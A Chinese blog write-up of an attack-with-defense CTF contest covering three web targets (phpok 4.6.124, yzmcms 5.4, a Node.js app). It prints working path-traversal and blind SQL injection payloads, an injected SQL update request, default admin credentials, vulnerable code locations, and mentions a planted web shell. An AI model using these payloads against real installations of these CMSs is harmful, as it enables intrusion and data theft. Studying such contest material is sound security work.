


前言
抱歉来晚了,赛后写完就丢在草稿箱里忘了发.
技术部分实际上比较常见,稍微写下水篇博客.
源码链接:可能有部分代码已被修改,可以参考文章看原本的漏洞位置.
https://share.weiyun.com/57BvkJk
web1
cms: phpok v4.6.124
写的顺序就按照我们挨打的顺序来了.
任意文件读
最初看到的流量是后台的任意文件读,稍微看了下代码.
后台弱口令admin:admin123
漏洞位于:\phpok\\framework\admin\admin_control.php:129行
1 | $title = $this->get("title"); |
没有过滤直接拼接,因此可以目录穿越读到flag.
payload:
/admin.php?c=appsys&f=file_edit&id=fav&title=../../../../../../../flag
比赛的时候比较着急,只看到挨打后顺着流量摸了这个文件,没去仔细审计.赛后稍微看了下,类似的操作不止可以读文件.在写文件,解压文件都以同样的方式拼接字符串.而且在index与api入口,也存在类似拼接.因此前台即可读文件.
api处payload: api.php?c=download&file=res/201903/27/../../../../../../../flag
index处payload: c=download&file=res/201903/27/../../../../../../../flag
修复则是在入口处简单过滤了..
前台getshell
详情见文章:https://www.anquanke.com/post/id/194453
巧的是发这文章的师傅也是这次比赛的选手.
又是挨打后找到流量,
/api.php?c=call&f=index&data={"m_picplayer":{"site":1,"type_id":"sql","sqlinfo":"update app.d3ctf_list_40 set content=(select 1) where id = 1756"}}"
也可使用反序列化后getshell,但大佬们似乎为了快速获得flag,只将flag弄到了前台,并没有维持权限与getshell.所以这虽然是你审计的0day,但是下一秒是我的了.
大概有两三只队伍到游戏结束也没修复.
sql注入
同样位于api接口,没有直接的回显,可以盲注.
payload:api.php?c=project&f=index&token=q&id=news&sort=IF(ascii(substr((select flag from ctf.flag),%s,1))=%s,1,(select 1 from information_schema.tables))
简单追踪一下漏洞位置:
phpok/frameword/api/project_control.php:190-194
1 | if ($sort) { |
sort参数被赋值到$dt['orderby']
在212行:$info = $this->call->phpok('_arclist', $dt);
跟进phpok/frameword.:
1 | $orderby = $rs['orderby'] ? $rs['orderby'] : $project['orderby']; |
可以看到$rs['orderby']被代入查询,中间没有任何关于sql的过滤.
通过盲注getflag.照着其他队打过来的payload,快速写了个exp反打.
1 | def exp(ip): |
但实际上这个sql注入动静比较大,修复又容易.只拿到了几个flag就都修好了.
还有几个主办方留的sql注入,与这个类似,师傅们修复的也都比较快,就没有一一写出来.
这几个就是在流量中发现的所有漏洞,修好后没再被拿分.
因为比赛的时候有些手忙脚乱,一边开发自动化脚本,一边审流量,没有静下心仔细看代码.赛后随便翻了下,没有过滤的sql点,以及直接拼接字符串读写文件的点还不少.
还有一个漏洞可有可无,后台默认账号修改密码后session不会失效,第二题一开始写了个脚本拿了所有对的cookie,但后台并没有找到其他漏洞,因此无用.
主办发还特地修改了验证码生成的地方,方便做自动化.
web2
cms:yzmcms v5.4
后台弱口令: yzmcms:yzmcms
web2漏洞与web1基本一致.
后台任意sql语句执行
后台有个执行sql的地方,有读写文件权限.直接读flag.
赛后看到有些师傅自动化出了点问题,因为需要先访问一次验证码api,绑定验证码与session.web1也是一样的.贴个例子.
1 | def exp(ip): |
主办方留的后门
在根目录下的favicon.ico内有一句话木马,并且特意设置的错误配置使其可解析.这个后门一开始拿d盾扫出来删了,然后主办方重置了一次靶机,我给忘了这个后门,流量又记录不到访问静态文件的.导致丢了好多轮的分.血亏
前台sql注入
搜索出存在sql注入,漏洞位于application/search/controller/index.class.php:13-37行:
1 | public function init(){ |
比较明显,没任何过滤,直接拼接进去了.同样是盲注:
1 | def exp(ip): |
web2还有一个任意文件上传,因为其他队修的比较快,也就最开始打了两轮,把比赛服务器打down了,第二次上线后好像都没中招,因此也没去找.
web2有个比较坑的地方,文章被搅屎的师傅删了,然后就被checkdown了,第一天全场只有一队正常,应该就是这队师傅干的(重拳出击).每轮被checkdown,掉了好多分,与第一名失之交臂.
web3
web3是第二天才上线,上线没多久就下线了,还是被我们蹭了不少分.
web3应该是配置出了问题,不会自动启动,于是我们手动启动了,然后问了下主办方咋没开启check.就恰了各位师傅checkdown的烂分.
不太熟悉nodejs,只找到一个任意文件读的洞,流量里还看到另外一个类似的洞.
payload1: /api/get post:file=../../../../../../../../flag
payload2: /api/crawl post:file=../../../../../../../../flag
漏洞位于web3/api/controllers/ApiController.js:
1 | module.exports = { |
也是直接拼接.另外一次也是如此.
手速快,然后就要么没打开服务被checkdown,要么打开了服务被我们打.这样搞几个小时全场还是挺舒服.
主要原因还是大家似乎都不太熟悉nodejs,也没准备相应的流量记录.
可惜打了几个小时就下线了.
附上临时写的流量记录的代码,插到入口文件即可:
1 | console.log("url:"+req.url+req.methed); |
以debug模式开启服务,然后重定向输入到/tmp/log.txt
总结
实际上,整场比赛只有几个特别明显的漏洞是我们自己审计出来的.较为复杂的漏洞均是抓到流量后反打,但就算这样我们web的分数也在前5甚至一度前2.并不是第一次比赛是这种情况,之前的几次也是这样.
我个人看来,当前AWD环境中,流量审计的作用大于代码审计,漏洞难找易修.特别是如果主办发权限控制较好,找到一个0day也很难维持住权限,大家都是老赛棍,经验丰富.代码审计的作用就更小了,甚至不如一直盯着流量做到及时防护与反打有效.
还有一点就是之前的文章中也提到过的,要准备好非php环境的后门,waf,流量审计等工具,难度低的比赛还是php为主,但是大佬齐聚的比赛php显然不够玩,java,nodejs,php,python等等语言环境的题目一起上是主流.
当然如果遇到没见过的情况,快速开发也是可行的.在这次比赛中,发现一个漏洞到写出批量脚本并且修好漏洞的响应时间,大致在十分钟左右,也就是一两轮的时间,要是不熟悉脚本语言,写慢了,就搭不到代码审计大佬的顺风车了.
贴几张图自嗨一下(划去)

